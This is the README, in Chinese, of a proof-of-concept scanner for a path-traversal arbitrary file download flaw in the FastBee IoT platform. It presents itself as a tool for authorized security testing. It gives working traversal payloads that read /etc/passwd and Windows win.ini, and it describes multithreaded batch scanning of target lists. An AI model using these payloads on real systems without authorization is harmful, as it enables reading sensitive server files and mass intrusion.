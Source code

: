 # FastBee 开源物联网平台任意文件下载漏洞 POC 工具

## 工具简介
本工具用于检测 **FastBee 开源物联网平台** 是否存在 `/prod-api/iot/tool/download` 接口任意文件下载漏洞。该漏洞可通过构造特殊请求参数，读取服务器敏感文件（如 `/etc/passwd`），对目标系统的安全性造成严重威胁。

工具支持单 URL 检测和批量 URL 检测，采用多线程（`multiprocessing.dummy.Pool`）提升批量检测效率，并自动将存在漏洞的目标保存至结果文件，便于后续分析。


## 漏洞原理
FastBee 开源物联网平台的 `/prod-api/iot/tool/download` 接口未对 `fileName` 参数进行严格的输入验证和路径过滤，允许攻击者通过 **路径穿越（../）** 构造恶意请求，读取服务器任意文件。

本工具通过以下核心逻辑验证漏洞：
1. 向目标 URL 发送基础请求，确认目标服务可正常访问（状态码 200）；
2. 构造路径穿越 payload：`/prod-api/iot/tool/download?fileName=/../../../../../../../../../etc/passwd`；
3. 若请求结果中包含 Linux 系统敏感文件 `/etc/passwd` 的特征内容（`root:x:0:0:root:/root:/bin/bash`），则判定目标存在漏洞。


## 环境依赖
| 依赖库         | 作用说明                          | 安装命令                  |
|----------------|-----------------------------------|---------------------------|
| `requests`     | 发送 HTTP/HTTPS 请求              | `pip install requests`    |
| `urllib3`      | 处理 HTTPS 证书警告（禁用不安全警告） | 依赖 `requests`，通常无需单独安装 |
| Python 版本    | 3.x 及以上（推荐 3.7+）           | -                         |


## 工具使用
### 1. 命令行参数说明
| 参数        | 简写 | 作用                          | 示例                          |
|-------------|------|-------------------------------|-------------------------------|
| `--url`     | `-u` | 单目标 URL 检测                | `-u http://192.168.1.100`     |
| `--file`    | `-f` | 批量检测（指定 URL 列表文件）  | `-f url_list.txt`             |
| `--help`    | `-h` | 查看工具帮助信息              | `-h`                          |


### 2. 基础使用场景
#### 场景 1：单目标检测
检测单个 FastBee 平台是否存在漏洞：
```bash
python fastbee_file_download_poc.py -u http://192.168.1.100:8080
```

#### 场景 2：批量目标检测
1. 准备 URL 列表文件（如 `url_list.txt`），每行一个目标 URL（支持带端口、不带协议头格式）：
   ```txt
   http://192.168.1.100
   https://fastbee.example.com:8443
   192.168.1.101:8080
   ```
2. 执行批量检测命令（默认 50 线程，可在代码 `Pool(50)` 处修改线程数）：
   ```bash
   python fastbee_file_download_poc.py -f url_list.txt
   ```


### 3. 输出说明
| 输出标识 | 含义                                  |
|----------|---------------------------------------|
| `[+]`    | 目标存在任意文件下载漏洞              |
| `[-]`    | 目标不存在漏洞                        |
| `[*]`    | 目标访问异常（如状态码非 200），需手工验证 |

**结果文件**：存在漏洞的目标会自动追加保存至当前目录的 `result1.txt` 文件中。


## 注意事项
1. **合法性声明**：
   - 本工具仅用于 **合法授权的安全测试**（如企业内部资产自查、经客户授权的渗透测试），禁止用于未授权的攻击行为。
   - 滥用本工具造成的法律责任（如破坏计算机系统、侵犯数据隐私等），由使用者自行承担。

2. **网络环境**：
   - 若目标使用 HTTPS 协议且证书无效，工具已通过 `urllib3.disable_warnings` 禁用证书验证警告，无需额外处理。
   - 批量检测时，建议根据目标网络环境调整线程数（代码中 `Pool(50)`），避免因线程过多导致目标服务器拒绝服务或本地 IP 被封禁。

3. **漏洞局限性**：
   - 本工具仅验证 Linux 系统的 `/etc/passwd` 文件，若目标为 Windows 系统，需修改 payload（如读取 `C:\Windows\win.ini`）并调整特征匹配内容。
   - 若目标存在 WAF（Web 应用防火墙），可能会拦截 payload 请求，导致检测结果不准确，需结合手工测试进一步验证。


## 代码修改建议
1. **调整线程数**：
   批量检测时，若目标数量少或网络不稳定，可减少线程数（如 `Pool(10)`）；若目标数量多且网络通畅，可适当增加（如 `Pool(100)`），修改位置：
   ```python
   mp=Pool(50)  # 此处数字即为线程数
   ```

2. **适配 Windows 目标**：
   若需检测 Windows 系统的 FastBee 平台，修改 `payload` 为 Windows 敏感文件路径，并调整特征匹配内容：
   ```python
   # 修改 payload（读取 Windows 系统文件）
   payload="/prod-api/iot/tool/download?fileName=/../../../../../../../../../Windows/win.ini"
   # 修改特征匹配（win.ini 文件特征）
   if 'FOR 16-BIT APPLICATIONS' in res2.text:
   ```

3. **自定义结果文件路径**：
   若需修改漏洞结果保存路径，修改代码中 `open('result1.txt','a',encoding='utf-8')` 中的文件名（如 `open('vuln_targets.txt','a',...)`）。


## 免责声明
本工具的开发和发布仅用于 **网络安全技术研究与学习**，旨在帮助企业和安全人员发现并修复系统漏洞，提升网络安全防护能力。

任何个人或组织在使用本工具前，必须确保已获得目标系统的 **合法授权**。若因未授权使用本工具造成任何违法违规行为或损失，均由使用者自行承担全部责任，工具开发者不承担任何法律责任。
